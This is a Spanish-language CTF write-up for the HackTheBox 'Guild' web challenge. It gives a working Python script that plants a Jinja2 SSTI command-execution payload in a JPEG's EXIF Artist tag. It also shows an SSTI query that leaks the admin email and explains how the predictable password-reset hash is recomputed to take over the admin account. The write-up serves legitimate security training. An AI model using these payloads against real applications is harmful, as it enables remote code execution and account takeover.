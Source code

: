 ```yaml
---
title: Guild Web CTF - HackTheBox
layout: page
permalink: /writeups/HTB/CTF/guild
date: 2025-02-14 11:00:00 +0000
categories: [HacktheBox, CTF, Web]
tags: [HacktheBox, CTF, Web]
image:
  path: /assets/img/cabeceras_genericas/htb.jpg
  alt: Guild Web CTF - HackTheBox
description: >
  Guía de explotación de vulnerabilidades en el CTF HackTheBox Guild Web.
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


# Creación del usuario

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image.png)

Creamos un usuario cualquiera de forma sencilla.

Una vez creado podemos iniciar sesión.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-1.png)

# Creación del payload

Para poder obtener la flag vamos a necesitar crear una imagen .jpg con un tag "artist" 

Script para crear la imagen:

{% raw %}
```python
from PIL import Image
import piexif

def create_exif_exploit():
    # Crear una imagen nueva
    img = Image.new('RGB', (50, 50), color='white')
    
    # Crear datos EXIF - El tag Artist está en el IFD principal (0th)
    zeroth_ifd = {
        piexif.ImageIFD.Artist: "{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}".encode('utf-8')
    }
    
    # Generar el diccionario EXIF completo
    exif_dict = {"0th": zeroth_ifd, "Exif": {}, "1st": {}, "thumbnail": None, "GPS": {}}
    
    # Convertir el diccionario a bytes
    exif_bytes = piexif.dump(exif_dict)
    
    # Guardar la imagen con los datos EXIF
    img.save('exploit.jpg', 'JPEG', exif=exif_bytes)
    print("Imagen creada con éxito: exploit.jpg")

if __name__ == "__main__":
    create_exif_exploit()

```
{% endraw %}

Con este script crearemos la imagen con el tag "artist" y podremos obtener la flag que se encuentra en la raiz de la web.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-2.png)

Una vez subida la imagen para poder ejecutar el payload hay que conseguir acceso a la cuenta de administrador.

# Acceso a la cuenta de administrador

Como sabemos por el código de la web, la cuenta de administrador se genera automáticamente al crear el docker además de que la cuenta de mail generada así como la contraseña son 8 carácteres en hexadcimal generados aleatoriamente.

Esto imposibilita la idea de realizar un ataque de fuerza bruta.

Teniendo esto en cuenta y analizando el comportamiento de la web podemos realizar una inyección SSTI en la bio del usuario que tenemos registrado para poder obtener la el mail de la cuenta de administrador.

## Análisis de código

Si bien en el template de la bio la inyección no se puede llevar a cabo, en la generación de página para compartir el perfil de usuario la situación es diferente.

```python
@views.route("/user/<link>")
def share(link):
    query = Validlinks.query.filter_by(validlink=link).first()
    if query:
        email = query.email
        query1 = User.query.filter_by(email=email).first()
        bio = Verification.query.filter_by(user_id=query1.id).first().bio
        temp = open("/app/website/templates/newtemplate/shareprofile.html", "r").read()
        return render_template_string(temp % bio, User=User, Email=email, username=query1.username)
```

Si observamos las variables que se le pasan al render_template_string, vemos que se pasa el modelo User completo. En Flask/SQLAlchemy podemos usar esto para hacer queries. Por lo tanto podríamos intentar pasar una query consultando el correo de la cuenta de administrador.

`User.query.filter_by (username='admin').first().email`

## Exploit

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-3.png)

Hacemos click donde dice "share profile" y copiamos el link.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-4.png)

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-5.png)

`4758505255527057@master.guild`

Ahora que tenemos el mail vamos a explotar el forget password.

# Explotando el forget password

Ahora que sabemos el mail de administrador podemos forzar el cambio de contraseña explotando una vulnerabilidad que hemos econtrado en el código.

Necesitamos primero indicar que hemos olvidado la contraseña de la cuenta de administrador con su mail.

Volvemos al login y hacemos click en "Forgot password?", introducimos el mail de administrador y pulsamos el botón "Send".

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-6.png)

Ahora como podemos ver en el código fuente, se genera un hash sha256 con el mail de la cuenta de administrador y esto se pasa a la función changepasswd.

1. Funcion para cambiar generando el hash:

```python
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        if query:
            # El hash es simplemente el SHA256 del email
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
```

2. Función para cambiar la contraseña:

```python
@views.route("/changepasswd/<Hash>",methods=["GET", "POST"])
def changepasswd(Hash):
    query = Validlinks.query.filter_by(validlink=Hash).first()
```

Sabiendo esto y que ya hemos generado en la base de datos la petición de cambio de contraseña podemos hacer el siguiente ataque.

Creamos exactamente la misma función que genera el hash del codigo.

```python
import hashlib

# Reemplaza esto con el email que obtuviste
admin_email = "4758505255527057@master.guild"

# Calcular el hash
reset_url = hashlib.sha256(admin_email.encode()).hexdigest()
print(reset_url)
```

Copiamos el hash y lo pasamos a la función changepasswd.

```bash
❯ python3 hashmail.py
336337986c1d078c19ef0aecef621d163fc5acc8feebde5efb2ffd79704f542e
```	
![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-7.png)

Con esto conseguimos cambair la contraseña del usuario administrador.

# Obtención de la flag

Ahora que acceso al panel de verificación de imágenes, podemos obtener la flag.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-8.png)

Si hacemos click en verify ejecutaremos el SSTI y obtendremos la flag.

![alt text](/assets/img/writeups/hackthebox/guild-ctf-htb/image-9.png)

